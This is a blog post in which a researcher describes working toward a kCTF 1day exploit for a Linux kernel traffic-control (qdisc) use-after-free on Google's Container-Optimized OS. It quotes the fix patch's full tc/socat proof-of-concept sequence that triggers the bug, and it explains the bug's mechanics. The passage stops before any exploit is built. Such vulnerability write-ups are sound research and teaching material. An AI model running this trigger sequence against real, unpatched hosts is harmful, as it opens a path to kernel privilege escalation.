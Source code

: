 ```yaml
---
layout: post
title: "Patch-Gapping the Google Container-Optimized OS for $0"
date: 2025-02-13
classes: wide
header:
  teaser: /assets/images/avatar.jpg
tags:
  - kCTF
  - CTF
  - Kernel
  - Exploit
---
```


## Background
I'm trying to really focus this year on developing technically in a few ways. Part of that is reviewing kCTF entries. This helps me get a sense of what subsystems are producing the most bugs at the moment in the program and also keeps me up to date on buggy patterns to look for. Also I get to shamelessly steal players' exploitation techniques as well. A lot of recent bugs have come from `/net/sched` so I was looking at patches for the subsystem and found a patch that claimed an exploitable UAF was possible. That patch is [here] (https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=bc50835e83f60f56e9bec2b392fb5544f250fb6f). I didn't realize at the time, but "Lion Ackermann" mentioned in the patch as the bug discoverer (and presumably exploiter) is a kCTF player.

I checked and discovered that at the time I found the patch the COS 105 instance in kCTF was still vulnerable to this bug. I stopped looking then, but lesson learned, the LTS instance was also still vulnerable. I don't know exactly how the rules work, but this bug was exploited as a 0day entry as per the public kCTF responses spreadsheet in December, but at the time I started working on it, there were no patch links in the spreadsheet for this bug and the instances remained unpatched.

At this point I started trying to figure out the bug and possibly exploit it. My goal was to patch-gap the COS 105 instance with a 1day entry. Shortly after I began investigating the bug, a new release was announced, but luckily the new instances would be vulnerable as well as they had also not been patched. Since the COS 105 slot was unexploited, and the upcoming COS 105 instance would also be vulnerable, I mistakenly took this as a signal to not rush as the instance would probably remain unexploited while I worked on the project slowly. In hindsight, I should've worked harder on this as the COS 105 instance was exploited a few hours before I finished. It may be moot anyways since the bug was exploited previously in the program as a 0day, still not sure about that. Anyways, I encountered some self-inflicted roadblocks that really hindered my progress, we'll get into those. Next time I'll work harder and dedicate more time to the effort instead of just a few hours here and there at night. 

## Patch Analysis
The patch text is very descriptive and provides a nice proof-of-concept to reproduce the buggy condition:
```terminal
net: sched: Disallow replacing of child qdisc from one parent to another
Lion Ackermann was able to create a UAF which can be abused for privilege
escalation with the following script

Step 1. create root qdisc
tc qdisc add dev lo root handle 1:0 drr

step2. a class for packet aggregation do demonstrate uaf
tc class add dev lo classid 1:1 drr

step3. a class for nesting
tc class add dev lo classid 1:2 drr

step4. a class to graft qdisc to
tc class add dev lo classid 1:3 drr

step5.
tc qdisc add dev lo parent 1:1 handle 2:0 plug limit 1024

step6.
tc qdisc add dev lo parent 1:2 handle 3:0 drr

step7.
tc class add dev lo classid 3:1 drr

step 8.
tc qdisc add dev lo parent 3:1 handle 4:0 pfifo

step 9. Display the class/qdisc layout

tc class ls dev lo
 class drr 1:1 root leaf 2: quantum 64Kb
 class drr 1:2 root leaf 3: quantum 64Kb
 class drr 3:1 root leaf 4: quantum 64Kb

tc qdisc ls
 qdisc drr 1: dev lo root refcnt 2
 qdisc plug 2: dev lo parent 1:1
 qdisc pfifo 4: dev lo parent 3:1 limit 1000p
 qdisc drr 3: dev lo parent 1:2

step10. trigger the bug <=== prevented by this patch
tc qdisc replace dev lo parent 1:3 handle 4:0

step 11. Redisplay again the qdiscs/classes

tc class ls dev lo
 class drr 1:1 root leaf 2: quantum 64Kb
 class drr 1:2 root leaf 3: quantum 64Kb
 class drr 1:3 root leaf 4: quantum 64Kb
 class drr 3:1 root leaf 4: quantum 64Kb

tc qdisc ls
 qdisc drr 1: dev lo root refcnt 2
 qdisc plug 2: dev lo parent 1:1
 qdisc pfifo 4: dev lo parent 3:1 refcnt 2 limit 1000p
 qdisc drr 3: dev lo parent 1:2

Observe that a) parent for 4:0 does not change despite the replace request.
There can only be one parent.  b) refcount has gone up by two for 4:0 and
c) both class 1:3 and 3:1 are pointing to it.

Step 12.  send one packet to plug
echo "" | socat -u STDIN UDP4-DATAGRAM:127.0.0.1:8888,priority=$((0x10001))
step13.  send one packet to the grafted fifo
echo "" | socat -u STDIN UDP4-DATAGRAM:127.0.0.1:8888,priority=$((0x10003))

step14. lets trigger the uaf
tc class delete dev lo classid 1:3
tc class delete dev lo classid 1:1

The semantics of "replace" is for a del/add _on the same node_ and not
a delete from one node(3:1) and add to another node (1:3) as in step10.
While we could "fix" with a more complex approach there could be
consequences to expectations so the patch takes the preventive approach of
"disallow such config".
```

The bug here is that a qdisc can be "re-parented" to a class that is not its original parent. This kind of logic was not intended. When you create these types of classes that can have qdiscs attached, a default qdisc is allocated and you can graft a new qdisc to the class afterwards to replace the current qdisc. So you can see that `class 1:3` is first created and then we graft a qdisc onto it in step 8. This will free the default qdisc and instantiate this one in its place and attach it to the class. 

The bug however, lets you graft that qdisc (handle 4:0) onto a different class by using the same grafting mechanism that we used on 3:1 but now we're grafting the same qdisc onto two classes. The patch points out the side effects of this bug are basically this:
1. From qdisc 4:0's point of view, it's parent is still class 3:1, that is never changed
2. From class 3:1's perspective, qdisc 4:0 is still its child qdisc
3. From class 1:3's perspective, qdisc 4:0 is now its child qdisc
4. The refcount on the qdisc is now 2: 1 from the initial graft onto 3:1 and another 1 from the re-parent graft onto 1:3

So those are the side effects the bug produces. At this point, I didn't know a single thing about `/net/sched`, classes, qdiscs, etc, so the learning curve during this process was steep. I had never dealt with this subsystem before in my life. But after a lot of Googling and ChatGPTing, I was able to reproduce the PoC in the patch with the `tc` utility just as the patch specifies. I went through all the steps and when I got to step 14 and it was time to trigger the UAF, I got the following splat after deleting class 1:3\:
